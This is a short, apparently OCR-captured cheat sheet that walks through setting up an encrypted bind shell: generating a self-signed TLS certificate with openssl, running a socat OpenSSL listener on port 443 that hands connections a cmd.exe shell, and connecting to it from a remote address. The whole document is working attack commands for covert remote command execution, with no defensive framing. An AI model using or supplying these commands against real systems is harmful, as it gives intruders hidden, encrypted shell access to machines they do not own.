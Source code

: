 # 1) Generate TLS cert for encrypted comms
```sh
# Generate self-signed keypair
openssl req \
-newkey rsa:2048 \
-nodes \
-keyout bind_shell.key \
-x509 \
-days 362 \
-out bind_shell.crt

# concat files for use with socat
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

# 2) Create encrypted cmd shell and listen for connections
```bat
set LPORT=443
socat OPENSSL-LISTEN:%LPORT%,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pipes
```

# 3) Connect to remote encrypted bind shell
```
RHOST=192.168.202.10
RPORT=443
socat - OPENSSL:$RHOST:$RPORT,verify=0
```
